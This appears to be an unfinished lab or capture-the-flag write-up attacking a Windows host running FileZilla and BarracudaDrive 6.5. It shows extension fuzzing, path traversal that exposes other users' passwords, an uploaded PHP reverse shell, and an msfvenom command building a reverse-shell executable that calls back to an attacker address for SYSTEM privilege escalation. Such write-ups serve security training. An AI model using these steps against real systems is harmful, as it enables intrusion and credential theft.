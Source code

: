 #InProgress 
```IP
192.168.150.127
```
# Enumeration

## FTP 30021
FileZilla ftpd 0.9.41 beta
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211092557.png?raw=true)

## HTTP 8000
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211090801.png?raw=true)
BarracudaDrive 6.5
PE https://www.exploit-db.com/exploits/48789
fuzzing different extensions to upload a file
```
ffuf -request files/ext.req -request-proto http -w /usr/share/SecLists-master/Fuzzing/extensions-Bo0oM.txt
```
none works

## HTTP 33033
we can update passwords
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211094745.png?raw=true)
and we can path traversal to other users and see their passwords
```
4qpdR87QYjRbog
xuk1EuP3N/rCpA
AJqKXnKVwhcSkg
WgsjOZwtOyCRSg
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211095528.png?raw=true)
# Exploitation

it is possible to navigate through directories in HTTP 8000. I got stuck a lot of time because I couldnt click on C, so it didn't seem like a directory....
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211105130.png?raw=true)
Once a revshell has been uploaded to the latter directory, you can access it via  
```
http://192.168.150.127:45332/shell2.php
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211105019.png?raw=true)
and type the local flag
# PrivEsc

## Manual
lets try the PE vulnerability found in BarracudaDrive 6.5
https://www.exploit-db.com/exploits/48789

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211105508.png?raw=true)
create a malicious revshell. substitute bd.exe and restart the computer
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.189 LPORT=4444 -f exe > reverse.exe
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211110042.png?raw=true)
we are nt authority system
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211110129.png?raw=true)
## Automated

### Peass
### Mimikatz

# Lateral Movement
